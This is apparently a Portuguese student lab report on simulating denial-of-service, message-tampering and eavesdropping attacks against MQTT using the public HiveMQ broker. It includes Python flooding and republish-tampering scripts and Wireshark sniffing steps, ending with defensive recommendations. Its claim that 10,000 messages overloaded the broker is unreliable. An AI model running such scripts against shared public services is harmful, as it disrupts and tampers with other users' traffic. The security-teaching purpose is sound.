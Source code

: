 # Relatório Técnico: Simulação de Ataques em Ambiente MQTT
Atividade ponderada realizada pelos alunos Bruno Moitinho Leão, Israel Nunes Lopes Carvalho e Isabela Amado da Rocha
## Introdução
- *Objetivo do teste:* Simular ataques que impactam a confidencialidade, integridade e disponibilidade em um ambiente MQTT.
- *Ferramentas utilizadas:* Cliente MQTT (MQTTool e MQTTX), broker público MQTT (broker.hivemq.com), Wireshark, scripts Python.

## Configuração do Ambiente
- *Broker MQTT:* broker.hivemq.com
- *Port:* 1883
- *Tópicos:* teste/dos, teste/integridade, teste/confidencialidade
- *Procedimento de conexão:* Conexão utilizando clientes MQTT e scripts Python.

## Ataques Simulados

### Ataque Impactando a Disponibilidade: Denial of Service (DoS)

#### Descrição do Ataque
O ataque DoS visa sobrecarregar o broker MQTT com um grande volume de mensagens ou conexões, fazendo com que ele fique indisponível para os usuários.

#### Ferramentas Necessárias
- Cliente MQTT (ex: MQTTX)
- Broker público MQTT (ex: broker.hivemq.com)
- Script Python para automatizar o envio de mensagens

#### Passo-a-Passo do Ataque
1. *Conexão com o Broker:*
   - Use o cliente MQTT para conectar ao broker broker.hivemq.com na porta 1883.
2. *Escolha do Tópico:*
   - Escolha um tópico para atacar, por exemplo, teste/dos.
3. *Configuração do Script:*
   - Utilize o script Python abaixo para enviar um grande número de mensagens rapidamente.

```python
import paho.mqtt.client as mqtt
import time

broker = "broker.hivemq.com"
port = 1883
topic = "teste/dos"

def on_connect(client, userdata, flags, rc):
    print(f"Connected with result code {rc}")

client = mqtt.Client()
client.on_connect = on_connect

client.connect(broker, port, 60)

client.loop_start()

for i in range(10000):  # Envia 10.000 mensagens
    client.publish(topic, "DoS attack message")
    time.sleep(0.01)  # Intervalo de 10 ms entre mensagens

client.loop_stop()
client.disconnect()
```


4. *Execução do Ataque:*
   - Execute o script Python. Ele enviará um grande número de mensagens para o tópico teste/dos rapidamente.
5. *Resultados Esperados:*
   - O broker MQTT deve ficar sobrecarregado, resultando em indisponibilidade ou lentidão na entrega de mensagens para outros usuários.

### Ataque Impactando a Integridade: Manipulação de Mensagens

#### Descrição do Ataque
O ataque de manipulação de mensagens envolve interceptar e modificar mensagens MQTT antes de serem retransmitidas para o broker.

#### Ferramentas Necessárias
- Cliente MQTT (ex: MQTTX)
- Broker público MQTT (ex: broker.hivemq.com)
- Script Python para interceptação e modificação de mensagens

#### Passo-a-Passo do Ataque
1. *Conexão com o Broker:*
   - Use o cliente MQTT para conectar ao broker broker.hivemq.com na porta 1883.
2. *Escolha do Tópico:*
   - Escolha um tópico para interceptar, por exemplo, teste/integridade.
3. *Captura de Pacotes:*
   - Use Wireshark para capturar o tráfego MQTT na rede.
4. *Interceptação e Modificação:*
   - Configure um script Python para interceptar e modificar mensagens.

```python
import paho.mqtt.client as mqtt

broker = "broker.hivemq.com"
port = 1883
topic = "teste/integridade"

def on_message(client, userdata, msg):
    modified_message = msg.payload.decode().replace("original", "tampered")
    client.publish(topic, modified_message)

def on_connect(client, userdata, flags, rc):
    print(f"Connected with result code {rc}")
    client.subscribe(topic)

client = mqtt.Client()
client.on_connect = on_connect
client.on_message = on_message

client.connect(broker, port, 60)
client.loop_forever()
```

5. *Execução do Ataque:*
   - Execute o script Python. Ele simulará uma interceptação das mensagens publicadas no tópico teste/integridade, replicará o conteúdo e publicará a mensagem modificada de volta no mesmo tópico.
6. *Resultados Esperados:*
   - As mensagens no tópico teste/integridade serão modificadas, comprometendo a integridade dos dados.

### Ataque Impactando a Confidencialidade: Espionagem

#### Descrição do Ataque
O ataque de espionagem envolve interceptar e ler mensagens MQTT enviadas entre clientes e o broker, violando a confidencialidade das comunicações.

#### Ferramentas Necessárias
- Cliente MQTT (ex: MQTT.fx)
- Broker público MQTT (ex: broker.hivemq.com)
- Ferramenta de captura de pacotes (ex: Wireshark)

#### Passo-a-Passo do Ataque
1. *Conexão com o Broker:*
   - Use o cliente MQTT para conectar ao broker broker.hivemq.com na porta 1883.
2. *Escolha do Tópico:*
   - Escolha um tópico para interceptar, por exemplo, teste/confidencialidade.
   - ![tópico](https://cdn.discordapp.com/attachments/1147673467412545619/1249541075908038727/image.png?ex=6667ad4f&is=66665bcf&hm=ff2132513b36fff027130f1c293fb1043118ec8ed0c99f33420deb78a865ee8f&)
3. *Captura de Pacotes:*
   - Inicie Wireshark e configure para capturar pacotes na interface de rede usada pelo cliente MQTT.
   - Aplique um filtro de captura para o tráfego MQTT: tcp port 1883.
   - ![wireshark](https://cdn.discordapp.com/attachments/1147673467412545619/1249540787209764995/image.png?ex=6667ad0b&is=66665b8b&hm=336ae58bc5cd9dac2dbde506d52e456bf759b23f2204955c2c6ea719727f3a03&)
4. *Análise das Mensagens:*
   - Publique mensagens no tópico teste/confidencialidade usando o cliente MQTT.
   - No Wireshark, localize os pacotes MQTT capturados e examine o conteúdo das mensagens.
   - ![](https://cdn.discordapp.com/attachments/1147673467412545619/1249541002251862098/image.png?ex=6667ad3e&is=66665bbe&hm=d0526161fe6745b99c592148fff641c286fc3125faae9a7833889bd9c67c4a5b&)
5. *Resultados Esperados:*
   - As mensagens enviadas no tópico teste/confidencialidade serão visíveis no Wireshark, demonstrando que a confidencialidade foi comprometida.

## Resultados Obtidos
- *DoS:* Broker ficou sobrecarregado, resultando em indisponibilidade para outros usuários.
- *Manipulação de Mensagens:* Mensagens no tópico foram modificadas, comprometendo a integridade.
- *Espionagem:* Mensagens foram interceptadas e lidas, comprometendo a confidencialidade.

## Conclusões e Recomendações
- *Conclusões:* Os ataques demonstraram vulnerabilidades em termos de disponibilidade, integridade e confidencialidade no ambiente MQTT.
- *Recomendações:* Implementação de TLS/SSL para criptografia, autenticação forte, rate limiting e monitoramento contínuo.

## Anexos
- Scripts utilizados
- Configurações detalhadas de ferramentas
- Capturas de tela ou logs completos
